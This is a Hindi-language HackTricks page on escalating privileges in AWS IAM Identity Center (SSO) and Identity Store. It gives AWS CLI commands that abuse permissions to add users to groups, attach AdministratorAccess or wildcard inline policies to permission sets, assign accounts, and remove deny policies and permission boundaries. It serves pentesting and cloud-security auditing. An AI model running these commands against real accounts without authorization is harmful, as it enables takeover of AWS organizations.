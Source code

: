 # AWS - SSO और आईडेंटिटी स्टोर प्राइविलेज एस्केलेशन

<details>

<summary><strong>हैकट्रिक्स का समर्थन करें और लाभ प्राप्त करें!</strong></summary>

* यदि आप अपनी कंपनी को **हैकट्रिक्स में विज्ञापित** देखना चाहते हैं या यदि आप **PEASS के नवीनतम संस्करण या HackTricks को PDF में डाउनलोड** करना चाहते हैं, तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एकल [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या मुझे **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)** का** **अनुसरण** करें।**
* **हैकिंग ट्रिक्स साझा करें,** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PR जमा करके।

</details>

## AWS आईडेंटिटी सेंटर / AWS SSO

AWS आईडेंटिटी सेंटर / AWS SSO के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../../aws-security/aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../../aws-security/aws-services/aws-iam-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
ध्यान दें कि **डिफ़ॉल्ट रूप से**, केवल **प्रबंधन खाते** से अनुमतियाँ रखने वाले **उपयोगकर्ता** ही IAM आईडेंटिटी सेंटर तक पहुंच और नियंत्रण कर सकते हैं।\
अन्य खातों के उपयोगकर्ता केवल तभी इसे अनुमति दे सकते हैं जब खाता एक **धारित प्रशासक** हो।\
[अधिक जानकारी के लिए दस्तावेज़ देखें।](https://docs.aws.amazon.com/singlesignon/latest/userguide/delegated-admin.html)
{% endhint %}

### ~~पासवर्ड रीसेट~~

इस तरह के मामलों में विशेषाधिकार बढ़ाने का एक आसान तरीका होगा कि उपयोगकर्ताओं के पासवर्ड रीसेट करने की अनुमति हो। दुर्भाग्यवश, केवल उपयोगकर्ता को उसका पासवर्ड रीसेट करने के लिए ईमेल भेजने की संभावना है, इसलिए आपको उपयोगकर्ता के ईमेल तक पहुंच की आवश्यकता होगी।

### `identitystore:CreateGroupMembership`

इस अनुमति के साथ, एक उपयोगकर्ता को समूह में सेट करना संभव होता है, ताकि वह समूह की सभी अनुमतियों को अनुग्रहित करेगा।

{% code overflow="wrap" %}
```bash
aws identitystore create-group-membership --identity-store-id <tore-id> --group-id <group-id> --member-id UserId=<user-id>
```
### `sso:PutInlinePolicyToPermissionSet`, `sso:ProvisionPermissionSet`

इस अनुमति के साथ एक हमलावर उस Permission Set को अतिरिक्त अनुमतियों के साथ प्रदान कर सकता है जो उसके नियंत्रण में एक उपयोगकर्ता को प्रदान किया जाता है।

{% code overflow="wrap" %}
```bash
# Set an inline policy with admin privileges
aws sso-admin put-inline-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --inline-policy file:///tmp/policy.yaml

# Content of /tmp/policy.yaml
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Statement1",
"Effect": "Allow",
"Action": ["*"],
"Resource": ["*"]
}
]
}

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
### `sso:AttachManagedPolicyToPermissionSet`, `sso:ProvisionPermissionSet`

इस अनुमति के साथ एक हमलावर उस अनुमति सेट को अतिरिक्त अनुमतियों के साथ प्रदान कर सकता है जो उसके नियंत्रण में एक उपयोगकर्ता को प्रदान की जाती है।

{% endcode %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-managed-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --managed-policy-arn "arn:aws:iam::aws:policy/AdministratorAccess"

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
### `sso:AttachCustomerManagedPolicyReferenceToPermissionSet`, `sso:ProvisionPermissionSet`

इस अनुमति के साथ एक हमलावर एक ऐसे अनुमति सेट को अतिरिक्त अनुमतियों से पुरस्कृत कर सकता है जो उसके नियंत्रण में एक उपयोगकर्ता को प्रदान किया जाता है।

{% hint style="warning" %}
इस मामले में इन अनुमतियों का दुरुपयोग करने के लिए आपको जानना चाहिए कि **सभी खातों में एक ग्राहक प्रबंधित नीति का नाम क्या है** जिन पर प्रभावित होने वाला है।
{% endhint %}

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-customer-managed-policy-reference-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --customer-managed-policy-reference <customer-managed-policy-name>

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
### `sso:CreateAccountAssignment`

इस अनुमति के साथ एक हमलावर एक उपयोगकर्ता को अपने नियंत्रण के तहत एक अकाउंट को एक परमिशन सेट दे सकता है।

{% code overflow="wrap" %}
```bash
aws sso-admin create-account-assignment --instance-arn <instance-arn> --target-id <account_num> --target-type AWS_ACCOUNT --permission-set-arn <permission_set_arn> --principal-type USER --principal-id <principal_id>
```
### `sso:GetRoleCredentials`

उपयोगकर्ता को दिए गए भूमिका नाम के लिए STS शॉर्ट-टर्म क्रेडेंशियल प्राप्त करता है।

{% code overflow="wrap" %}
```
aws sso get-role-credentials --role-name <value> --account-id <value> --access-token <value>
```
{% endcode %}

हालांकि, आपको एक एक्सेस टोकन की आवश्यकता होती है जिसे मुझे यह नहीं पता कि कैसे प्राप्त करें (TODO).

### `sso:DetachManagedPolicyFromPermissionSet`

इस अनुमति के साथ एक हमलावर निर्दिष्ट अनुमति सेट से AWS निर्वाहित नीति के संबंध को हटा सकता है। **निर्वाहित नीति (अस्वीकार नीति)** को अलग करके अधिक विशेषाधिकार देना संभव है।

{% code overflow="wrap" %}
```bash
aws sso-admin detach-managed-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN> --managed-policy-arn <ManagedPolicyARN>
```
### `sso:DetachCustomerManagedPolicyReferenceFromPermissionSet`

इस अनुमति के साथ एक हमलावर निर्दिष्ट अनुमति सेट से एक ग्राहक प्रबंधित नीति के बीच संबंध को हटा सकता है। **एक प्रबंधित नीति (निषेध नीति) को अलग करके** अधिक विशेषाधिकार देना संभव है।

{% code overflow="wrap" %}
```bash
aws sso-admin detach-customer-managed-policy-reference-from-permission-set --instance-arn <value> --permission-set-arn <value> --customer-managed-policy-reference <value>
```
### `sso:DeleteInlinePolicyFromPermissionSet`

इस अनुमति के साथ एक हमलावर अनुमति सेट से इनलाइन नीति की अनुमतियों को हटा सकता है। इनलाइन नीति को अलग करके (नकारात्मक नीति) के माध्यम से अधिक विशेषाधिकार प्रदान करना संभव है।

{% code overflow="wrap" %}
```bash
aws sso-admin delete-inline-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN>
```
### `sso:DeletePermissionBoundaryFromPermissionSet`

इस अनुमति के साथ एक हमलावर परमिशन सेट से परमिशन बाउंडरी को हटा सकता है। परमिशन बाउंडरी से दिए गए परमिशन सेट पर सीमाएं हटाकर **अधिक विशेषाधिकार प्रदान किए जा सकते हैं**।

{% code overflow="wrap" %}
```bash
aws sso-admin   delete-permissions-boundary-from-permission-set --instance-arn <value> --permission-set-arn <value>
```
{% endcode %}

<details>

<summary><strong>बढ़िया होने के लिए HackTricks का समर्थन करें और लाभ प्राप्त करें!</strong></summary>

* यदि आप अपनी कंपनी को **HackTricks में विज्ञापित करना चाहते हैं** या यदि आप **PEASS के नवीनतम संस्करण देखना चाहते हैं या HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) का खोज करें, हमारा एकल [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या मुझे **Twitter** पर फ़ॉलो करें 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **अपने हैकिंग ट्रिक्स साझा करें,** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PR जमा करके।

</details>
